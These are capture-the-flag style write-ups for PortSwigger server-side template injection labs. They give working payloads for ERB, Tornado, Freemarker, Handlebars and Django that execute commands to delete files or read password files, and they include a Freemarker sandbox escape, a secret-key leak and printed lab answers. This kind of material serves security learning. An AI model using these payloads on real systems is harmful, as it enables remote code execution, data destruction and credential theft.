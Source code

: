 ## Basic SSTI
[Basic SSTI](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)

Write-up:

1. When we click the first product, we see the message "Unfortunately this product is out of stock."
If we change the message parameter to `<%= 7*7 %>`, we see that it returns 49 - ERB injection possibility.

2. Changing the message parameter to `<%= system 'ls' %>` shows us the **morale.txt** file.
   
3. We can use `<%= system 'rm morale.txt' %>` to solve the lab.

## Basic SSTI (code context)
[Basic SSTI (code context)](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)

Write-up:

1. After logging in, we see there are two actions in our account - changing e-mail and preferred name.
Analyzing both these requests shows us that changing preferred name has an interesting parameter that changes our name display in post comments. For example, changing preferred name to name uses parameter `blog-post-author-display=user.name`.

2. After studying the Tornado docs, we see that its template expressions are surrounded by curly braces, so we can use these to escape and execute code: <br>
    `blog-post-author-display=user.name}}{{7*7}}` <br>
    This shows us 49, which points to code being executed.

3. Using {% %} to execute arbitrary code, we can craft the following payload: <br>
    `blog-post-author-display=user.name}}{%25%20import%20os%20%25}{{os.system('rm%20/home/carlos/morale.txt')}}` <br>
    URL-encoding the necessary characters (spaces - %20 and % - %25). This solves the lab.

## SSTI using documentation
[SSTI using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)

Write-up:

1. We are instructed to discover the template engine used. If we click one of the posts, we have
the option to edit a template, we can see that code is being executed to retrieve stock, for example.

2. Using this [tool](https://cheatsheet.hackmanit.de/template-injection-table/), 
we discover that this lab uses a Freemarker template.

3. Using the [documentation](https://freemarker.apache.org/docs/api/index.html), we craft the following payload: <br> `${"freemarker.template.utility.Execute"?new()("rm morale.txt")}` <br> This solves the lab.

## SSTI in an unknown language with a documented exploit
[SSTI in an unknown language with a documented exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)

Write-up:

1. Like in the **Basic SSTI** lab, we can change a message parameter. Using this
[tool](https://cheatsheet.hackmanit.de/template-injection-table/), we discover 
this lab is using a Handlebars template (Javascript).

2. Searching the internet for documented Handlebars SSTI exploits, we find this
[link](https://gist.github.com/vandaimer/b92cdda62cf731c0ca0b05a5acf719b2).

3. Using the Node.js [docs](https://nodejs.org/api/child_process.html) for child_process,
we can craft the following payload: <br>
    ```
    {{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
        {{this.pop}}
        {{this.push (lookup string.sub "constructor")}}
        {{this.pop}}
        {{#with string.split as |codelist|}}
            {{this.pop}}
            {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');" }}
            {{this.pop}}
            {{#each conslist}}
            {{#with (string.sub.apply 0 codelist)}}
                {{this}}
            {{/with}}
            {{/each}}
        {{/with}}
        {{/with}}
    {{/with}}
    {{/with}}
    ```

4. URL-encoding this payload and submitting it as **message** solves the lab.

## SSTI with information disclosure via user-supplied objects
[SSTI with information disclosure via user-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)

Write-up:

1. After logging in, we are able to edit templates, and we discover that a Django 
template with Python 2.7 is being used.

2. Upon researching Django SSTI, we can find this [website](https://www.wallarm.com/what/server-side-template-injection-ssti-vulnerability).
It shows us that we can try to access {{settings}}, and possibly {{settings.SECRET_KEY}}, which are both possible.
This reveals the solution: **xd4klewsdwzux56wdrfdxgaajj8ekyr0**

## SSTI in a sandboxed environment
[SSTI in a sandboxed environment](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment)

Write-up:

1. We are told the website uses a Freemarker template and that we should break out
of the sandbox and read flag at home/carlos/my_password.txt. After logging in,
we see that we can once again edit the posts' templates.

2. Attempting to use the payload `${"freemarker.template.utility.Execute"?new()("cat /home/carlos/my_password.txt")}`
fails due to the sandboxed environment: <br>
"Instantiating freemarker.template.utility.Execute is not allowed in the template for security reasons."

1. After some research, we can find the following [documented exploit](https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack). We use it
to craft the following payload: <br>
`${product.class.protectionDomain.classLoader.loadClass("freemarker.template.ObjectWrapper").getField("DEFAULT_WRAPPER").get(null).newInstance(product.class.protectionDomain.classLoader.loadClass("freemarker.template.utility.Execute"),null)("cat /home/carlos/my_password.txt")}` <br>
This gets us the solution: **6ahblydrrpsffr1ru83r**

## SSTI with a custom exploit
[SSTI with a custom exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit)

Write-up:

1. We need to discover which template engine the lab is using and then craft a 
payload to delete /home/carlos/.ssh/id_rsa. After logging in, we find a setup similar to
**Basic SSTI (code context)**. Intercepting the "Preferred Name" request allows us
to craft a payload using the **blog-post-author-display** parameter.

2. Changing the parameter to `blog-post-author-display=user.name}}{{7*7` shows us
that code is being executed.
